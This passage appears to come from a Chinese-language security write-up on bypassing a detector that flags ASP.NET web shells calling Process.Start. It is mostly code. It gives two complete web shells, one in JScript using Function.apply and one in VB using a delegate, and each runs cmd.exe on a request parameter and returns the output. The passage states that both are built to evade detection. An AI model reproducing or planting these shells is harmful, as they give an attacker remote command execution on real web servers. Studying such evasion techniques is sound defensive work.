 ```
System.IO.StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
Response.Write(s);
%>
```
进过测试发现主要就是对调用`System.Diagnostics.Process.Start`方法进行了检测，传统思路就是通过反射来获取`Start`方法然后执行。进过测试对反射检测较为严格，于是转为寻找可以实现类似反射效果的方法。找到4种类似方法可以绕过。
在`JScript`中使用`Function.apply`动态调用`Start`方法
```
<%@ Page Language="JScript" %>
<%
var userCommand = Request.Params["g"];
if (userCommand != null && userCommand != "") {
    try {
        var psi = new System.Diagnostics.ProcessStartInfo();
        psi.FileName = "cmd.exe";
        psi.Arguments = "/c " + userCommand;
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
        var process = new System.Diagnostics.Process();
        process.StartInfo = psi;
        // 使用 Function.apply 动态调用 Start 方法
        process.Start.apply(process, []);
        var output = process.StandardOutput.ReadToEnd();
        process.WaitForExit();
        Response.Write(Server.HtmlEncode(output));
    } catch (ex) {
        Response.Write("Error: " + Server.HtmlEncode(ex.Message));
    }
} else {
    Response.Write("No command");
}
%>
```
在`VB`中委托绑定`Start`方法
```
<%@ Page Language="VB" %>
<%
Dim userCommand As String = Request.Params.Get("g")
If Not String.IsNullOrEmpty(userCommand) Then
    Try
        Dim psi As New System.Diagnostics.ProcessStartInfo()
        psi.FileName = "cmd.exe"
        psi.Arguments = "/c " & userCommand
        psi.RedirectStandardOutput = True
        psi.UseShellExecute = False
        Dim process As New System.Diagnostics.Process()
        process.StartInfo = psi
        ' 使用委托绑定 Process.Start 方法
        Dim startMethod As StartDelegate = AddressOf process.Start
        startMethod.Invoke()
        Dim output As String = process.StandardOutput.ReadToEnd()
        process.WaitForExit()
        Response.Write(Server.HtmlEncode(output))
    Catch ex As Exception
        Response.Write("Error: " & Server.HtmlEncode(ex.Message))
    End Try
Else
    Response.Write("No command")
End If
%>
<script runat="server">
Public Delegate Function StartDelegate() As Boolean
```